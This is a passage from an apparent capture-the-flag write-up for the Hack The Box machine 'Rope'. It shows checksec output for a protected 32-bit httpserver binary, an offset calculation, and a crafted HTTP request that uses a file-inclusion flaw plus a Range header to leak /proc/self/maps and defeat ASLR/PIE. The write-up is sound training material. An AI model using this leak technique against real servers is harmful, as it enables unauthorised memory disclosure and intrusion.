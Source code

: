 We have our offset at 53: `64 – (8 + 3) = 53`

### Bypassing ASLR and PIE
```bash
root@silence:~# checksec ./httpserver
[*] '/root/httpserver'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Running checksec on the httpserver binary we see that all protections are enabled. This means we have to find a way to bypass ASLR and PIE.

#### LFI to leak address mapping
With the LFI still in the back of our minds, we can try to access /proc/self/maps, which contains the currently mapped memory regions for our process.

Leaking /proc/self/maps:
```http
GET //proc/self/maps HTTP/1.1
Host: 10.10.10.148:9999
[...]

HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-length: 0
Content-type: text/plain
```
Hmm... For some reason we don't get any data returned. After a bit of research, I came across the Range HTTP request header, which can be used to specify the part of the resource the server should return. After a bit of playing around, we can use a range of `bytes=0-1512` to fully leak the wanted information.

![Leaked /proc/self/maps](/assets/htb/Rope/webpage-lfi-procmaps.png)


[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif